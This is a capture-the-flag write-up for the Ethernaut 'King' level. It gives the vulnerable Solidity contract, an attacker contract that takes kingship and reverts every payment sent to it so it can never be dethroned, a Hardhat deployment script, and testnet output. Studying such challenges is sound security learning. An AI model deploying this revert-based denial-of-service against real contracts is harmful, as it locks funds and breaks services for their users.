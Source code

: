 ```yaml
---
title: "Ethernaut #09 King"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut King challenge writeup
---
```


## King

### Challenge

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

### Background

This challenge confused me for a moment. I had a rough idea of re-entrancy attacks so I though this might be some type of a re-entrancy attack. I started checking what I could do if I control the transfer function, but looking at the next challenge name (`re-entrancy`) I thought that this is most likely not the type of attack I'm looking at. It is however a simpler version of it. The reason I was confused however, is that the challenge was not so clear to me. Usually we are after getting ownership of funds out of the contract, now I just needed to stay the king for ever.

So what is important to note here is that an smart contract can run code when funds are being transfered to it.

### Attack

In order to stay king, we just need to make sure that once we become king, nobody can execute the receive function without a revert. This can be simply achieved by making a contract we controll the king and force `revert`ing when someone transfers funds to the contract. If we needed to we could also have some logic to enable or disable this functionality but there is not need for this for the particular challange. Also keep in mind that a simple transfer does not have enough gas to pull this off, so a call with a value needs to be used when passing funds to the `King` contract. 

* Create a contract that can send funds to the `King` contract using `call` and reverts when receiving funds
* Send enought funds to the `King` contract to make the attacker contract king

#### KingSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

contract KingSolve {

    constructor() public {}
    
    function becomeKing (address payable _king) public payable {
        // _king.call.value(msg.value)("");
        _king.call{value: msg.value}("");
    }

    receive() external payable {
        revert();
    }
}
```

#### king-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    kingAddress = "0xaa0130693AbE4a6a478224F96747dD98Ba2c5740";
    contract = await ethers.getContractAt("King", kingAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    KingSolve = await ethers.getContractFactory("KingSolve");
    kingSolve = await KingSolve.deploy();
    await kingSolve.deployed();

    console.log("Level address: " + contract.address)
    console.log("Contract King: " + await contract._king())

    // get current price
    prize = await contract.prize()
    console.log("Current Prize: " + prize)

    // send funds buy calling selfdestruct
    tx = await kingSolve.connect(account).becomeKing(contract.address, { value: prize })
    receipt = await tx.wait()

    console.log("Contract King: " + await contract._king())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/king-solve.js --network rinkeby
Level address: 0xaa0130693AbE4a6a478224F96747dD98Ba2c5740
Contract King: 0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5
Current Prize: 1000000000000000
Contract King: 0x868A70Ca70a8089b979051Efc3e7e649DB1bdC82
```

### Success Message

Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).
